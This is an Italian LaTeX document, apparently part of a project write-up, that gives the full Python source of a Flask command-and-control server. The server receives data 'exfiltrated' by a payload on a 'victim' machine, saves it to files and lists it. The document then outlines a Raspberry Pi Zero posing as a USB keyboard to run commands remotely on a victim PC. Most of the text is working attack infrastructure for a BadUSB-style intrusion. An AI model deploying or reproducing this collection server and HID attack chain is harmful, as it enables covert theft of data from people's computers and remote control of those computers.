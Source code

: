 \documentclass[12pt,a4paper]{article}
\begin{document}
\section{Server C2 (Command \& Control)}

Il server C2 riceve i dati inviati dal payload sulla macchina vittima
e li salva per l'analisi.

\begin{lstlisting}[language=Python, caption=server.py -- Server ricevente]
#!/usr/bin/env python3
"""
Server C2 - Riceve i dati esfiltrati dal payload
Eseguire sul PC controller: python3 server.py
"""
from flask import Flask, request
from datetime import datetime
import os

app = Flask(__name__)
os.makedirs("risultati", exist_ok=True)

@app.route('/collect', methods=['POST'])
def collect():
    data = request.get_data(as_text=True)
    ts   = datetime.now().strftime("%Y%m%d_%H%M%S")
    path = f"risultati/output_{ts}.txt"

    with open(path, "w", encoding="utf-8") as f:
        f.write(data)

    print(f"\n{'='*50}")
    print(f"[+] Dati ricevuti -- {ts}")
    print(f"{'='*50}")
    print(data)
    print(f"[*] Salvato in: {path}")
    return "OK", 200

@app.route('/risultati')
def lista():
    files = os.listdir("risultati")
    return "<br>".join(files) if files else "Nessun risultato."

if __name__ == '__main__':
    print("[*] Server C2 in ascolto su http://0.0.0.0:8080")
    app.run(host='0.0.0.0', port=8080, debug=False)
\end{lstlisting}

\newpage

\section{Livello 2 -- Controllo Remoto Interattivo}

\subsection{Architettura}
Il Livello 2 aggiunge un PC Controller che invia comandi in tempo reale
al Raspberry Pi Zero, il quale li esegue come tastiera HID sulla vittima:

\begin{center}
\texttt{[PC Controller] ---Ethernet---> [Pi Zero] ---USB HID---> [PC Vittima]}
\end{center}
\end{document}

